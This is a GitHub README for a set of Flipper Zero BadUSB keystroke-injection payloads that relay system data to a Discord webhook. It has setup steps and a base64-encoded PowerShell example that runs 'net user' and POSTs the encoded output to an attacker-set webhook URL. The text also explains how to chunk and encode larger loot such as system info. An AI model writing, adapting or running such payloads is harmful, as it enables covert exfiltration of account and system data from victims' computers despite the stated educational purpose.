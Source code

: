 # Flipper-Zero-BadUSB

Flipper Zero BadUSB payloads for relaying data to a Discord webhook.

## About

This repository contains a collection of payloads for the Flipper Zero, USB Rubber Ducky or similar devices. 

The idea of run the PowerShell payload in base64 was inspired by the project from [InfoSecREDD](https://github.com/InfoSecREDD/REPG).

## Disclaimer

All these payloads are designed for educational, testing, and research purposes in cybersecurity.

I am not a professional in PowerShell scripting. I am using this project to learn about DuckyScripting and its capabilities with Flipper Zero. 

Feel free to fork and contribute to the community.

## Usage

To load these payloads onto your Flipper Zero, you should copy them into the SDcard's "`badusb`" folder.

The provided script `Hostname2Disc.txt` will send the response in plain text because it's not too long (hostname).

However, in the example `SysInfo2Disc.txt` we see how the response will be sent in base64-encoded and in multiple messages as it exceeds the character limit of the POST method message.

Here are some things to consider:
* The `REM` command does not perform any keystroke injection, is just a comment.
* In each payload, remember to replace "`webhookgoeshere`" with your webhook URL for the variable `$webhook`.
* The base64-encoded code generated from the `echo` command contains the compiled PowerShell script. This can also be replaced with other PowerShell commands.

### Example

Below is an example of a PowerShell script encoded in base64 that executes the `net user` command:

Base64 code:
```JG91dHB1dCA9IG5ldCB1c2VyCiRiYXNlNjRPdXRwdXQgPSBbQ29udmVydF06OlRvQmFzZTY0U3RyaW5nKFtTeXN0ZW0uVGV4dC5FbmNvZGluZ106OlVURjguR2V0Qnl0ZXMoJG91dHB1dCkpCiRib2R5ID0gQHsKICAgIGNvbnRlbnQgPSAkYmFzZTY0T3V0cHV0Cn0gfCBDb252ZXJ0VG8tSnNvbgpJbnZva2UtUmVzdE1ldGhvZCAtVXJpICR3ZWJob29rIC1NZXRob2QgUG9zdCAtQm9keSAkYm9keSAtQ29udGVudFR5cGUgImFwcGxpY2F0aW9uL2pzb24iCg==```

